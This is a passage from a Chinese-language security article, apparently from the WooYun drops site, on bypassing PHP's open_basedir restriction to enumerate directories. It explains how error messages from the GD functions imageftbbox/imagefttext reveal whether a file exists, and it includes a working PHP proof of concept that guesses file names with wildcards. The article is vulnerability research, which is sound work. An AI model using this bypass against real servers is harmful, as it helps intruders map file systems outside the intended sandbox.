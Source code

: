 ![enter image description here](http://drops.javaweb.org/uploads/images/6273e077da60b5a78be3171f42865703373c6922.jpg)

这个方法有个特点，不管是否开启open_basedir都是可以枚举任意目录的。而上一个方法（realpath）只有在开启open_basedir且在open_basedir外的时候才会报错，才能列举目录。当然，没有开启open_basedir的时候也不需要这样列举目录了。

0x05 GD库imageftbbox/imagefttext列举目录
=====

GD库一般是PHP必备的扩展库之一，所以我在寻找open_basedir的时候也会看看这些有用的扩展库。

这是新方法：[WooYun: php设计缺陷导致绕过open_basedir列举目录之3](http://www.wooyun.org/bugs/wooyun-2014-083688)

我拿imageftbbox举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和realpath有相似性，都会抛出open_basedir的错误。

我也修改了个简单的POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>

```

同样列举一下d:/test

![enter image description here](http://drops.javaweb.org/uploads/images/ea19ae77f1a42de241da9b4b456b698344601ad9.jpg)

如上图，我们发现虽然“通配符”在判断是否存在的时候奏效了，但我们真正的文件名并没有显示出来，而是还是以通配符“<><”代替。

所以，这个方法报错的时候并不会把真正的路径爆出来，这也是其与realpath的最大不同之处。所以，我们只能一位一位地猜测，但总体来说，还是能够猜测出来的，只不过可能比realpath更麻烦一些罢了。

0x06 bindtextdomain暴力猜解目录
=====

这是新方法：[WooYun: php设计缺陷导致绕过open_basedir列举目录#2](http://www.wooyun.org/bugs/wooyun-2014-083457)

